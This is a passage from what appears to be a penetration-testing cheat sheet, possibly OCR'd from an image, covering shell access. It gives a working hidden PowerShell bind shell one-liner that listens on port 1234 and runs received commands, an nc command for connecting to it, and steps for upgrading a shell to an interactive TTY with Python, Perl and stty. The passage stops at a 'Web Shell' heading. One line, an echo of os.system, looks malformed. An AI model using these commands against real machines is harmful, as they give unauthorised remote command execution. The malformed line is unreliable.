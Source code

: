 - **PowerShell (Windows)**:
    
    <pre>```
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]::new(1234);$listener.Start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$buffer = 0..65535|%{0};while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0){$data = (New-Object -TypeName Text.ASCIIEncoding).GetString($buffer,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```</pre>
    

Once the bind shell command is executed, use `nc` or a browser to connect to the open port on the target machine.

**Connecting to Bind Shell:**

<pre>```bash
nc 10.10.10.1 1234
```</pre>

---

### **Upgrading Shells (Reverse or Bind)**

Often, shells obtained through Netcat or other tools are non-interactive. To make the shell interactive, upgrade it to a proper TTY.

**Steps to Upgrade Shell:**

1. **Use Python to spawn a TTY**:
    
    <pre>```bash
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```</pre>
    
2. **Background the shell** with `Ctrl+Z`, then:
    
    <pre>```bash
    stty raw -echo
    fg
    reset
    export TERM=xterm-256color
    stty rows 67 columns 318
    ```</pre>
    

If Python is not available, alternatives include:

- **Perl TTY upgrade**:
    
    <pre>```perl
    perl -e 'exec "/bin/sh";'
    ```</pre>
    
- **Echoing a new terminal**:
    
    <pre>```bash
    echo os.system('/bin/bash')
    ```</pre>
    

---

### **Web Shell**

```